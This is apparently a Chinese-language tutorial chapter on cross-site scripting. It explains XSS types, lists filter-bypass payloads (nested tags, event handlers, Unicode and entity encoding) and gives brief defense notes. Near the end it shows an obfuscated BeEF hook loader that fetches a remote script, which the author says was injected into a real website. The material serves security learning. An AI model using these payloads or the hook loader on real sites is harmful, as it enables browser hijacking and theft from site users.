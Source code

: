 # 02.XSS跨站点脚本

##2.1 XSS介绍

  __Cross-Site Scripting(跨站点脚本)__是Web中最广泛利用的一种漏洞之一，占据OWASP 2013年Web漏洞第三位，其广泛程度以及危害性可见一斑。
  
  XSS漏洞的原理，简而言之，就是：利用Web应用程序的漏洞，向页面中注入JavaScript恶意代码使其运行并进行破坏。 
  
###2.1.1 XSS分类
  
  XSS 主要分为两类，反射性XSS和存储型XSS。
  
  * __反射性XSS__
  
    反射性的恶意并不直接存储在目标系统存储中，攻击者利用漏洞构造指定格式的URL，利用欺骗等手段让受害人误点击URL从而访问目标页面并指定恶意脚本。
    例如：`http://webapp.com?content=<script>alert('XSS')</script>`

  * __存储型XSS__
  
    存储型XSS是指，攻击者将恶意代码存储到目标系统中，在系统向页面输入该内容时，脚本自动被执行。

###2.1.2 XSS产生原因
  
  有句话说的妙：___All Input is Evil！所有的输入都是恶意的！___这是防御式编程里必须设定的一个前提。XSS产出的原因是由于没有对用户的输入进行足够的校验和过滤，攻击者可以构造恶意脚本从而导致漏洞的发生。
  
  用户在input[type=text]框里输入`<script>alert('xss');</script>`，系统就毫不保留得在浏览器进行输输出，从而导致XSS漏洞，这是对合法用户极其不负责任的一种行为。
   
###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧（payload）

 **只提供思路，不适用所有情况，根据过滤规则的不同，选择构造不同的playload。**

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，骚年，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把script标签过滤掉，过滤的规则会很多，注入一定要根据过滤的规则不同而选择不同的playload，这里尝试讲解两种情况的过滤：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

假如用户的输入如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

如果系统没有对用户输入进行递归的xss过滤的话，那么第一种情况，我们的playload可以是：
```html
<scr<script>ipt>alert('xss');</scr</script>ipt>
```

而第二种情况，可以尝试这种技巧：
```html
<scr<script></script>ipt>alert('xss');</scr<script></script>ipt>
```

####2.2.1.3 标签事件注入

标签的事件**on(event)**是很容易被利用作为playload的。例如：
```html
<p onmouseover="alert('xss');">鼠标移动到这里触发js脚本！</p>
```

如果想让脚本自动执行，可以利用onload,onunload,onerror等时间，可以利用onfouse事件，例如:

```html
<input onfouse="alert('xss')" autofouse />
```

如果系统对标签事件进行了过滤，那么可以针对过滤的规则进行相应注入，例如**2.2.1.2**提到的技巧。

####2.2.1.4 /代替空格

####2.2.1.5 JavaScript Unicode编码注入

  如果系统后台对html标签进行了过滤而没有然后的可能，同时前端Javascript脚本获取资源时并没有进行转义就输入，那么你可以尝试使用JavaSscript的Unicode编码进行注入。
  
  `<script>alert('xss');</script>`
  
  对应的JavaScript Unicode编码是：

  `\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e`
  
  一般系统后台不会识别这是JavaScript的Unicode编码形式，所以都通过了验证。但当前端的JavaScript使用如下方法显示内容时，XSS漏洞就出现了：
  
```javascript
document.write('\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e');
```

####2.2.1.6 HTML实体编码

  ___HTML解析器能够识别文本节点和参数值里的实体编码，并在内存里创建文档树的表现形式时，透明地对这些编码进行解码___。所以一下两个URL实际上是一样的。
```html
<a href="javascript:alert('xss');">click it!</a>
VS
<a href="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;&#x3B;">click it!</a>
```
  
  
  
####2.2.1.7 其他可以利用的标签

  * iframe
  * meta
  * style
  * embed
  * flash
  * applet
  * ...

###2.2.2 高帅富篇

####2.2.2.1 伪协议javascript:alert('xss')

####2.2.2.2 伪协议data:text/html

####2.2.2.3 绕过关键字过滤的技巧

以下是我成功注入一个网站的一段js代码，系统对window,document,createElement,js等关键字进行了过滤，但还是被成功注入了。
```javascript
if(typeof beef=='undefined'){
  var url='http://119.xxx.128.103:3000/hook.'+'j'+'s';
  dd=self['d'+'o'+'cument'];
  bf=dd['create'+'Element']('script');
  bf.async=true;
  bf.src=url;dd.body.appendChild(bf);}
}
```

####2.2.2.3  完恶之源eval

##2.3 XSS防注
  
    数据和架构分离：前端模板jQuery，ejs，ployer，$('<div/>')
    
    no el！use c:out
    
    http xss header
    
    白名单标签为主+黑名单为辅
    
    no external script
    
    RichTextArea 递归过滤
  
##2.4 XSS平台：beef-xss

参考文档：
  * OWASP 
  * 维基百科
  * 百度百科
  * Web之困（现在Web应用安全指南）
  * 白帽子讲Web安全
  * InfoQ: http://www.infoq.com/cn/articles/web-security-practical-operation
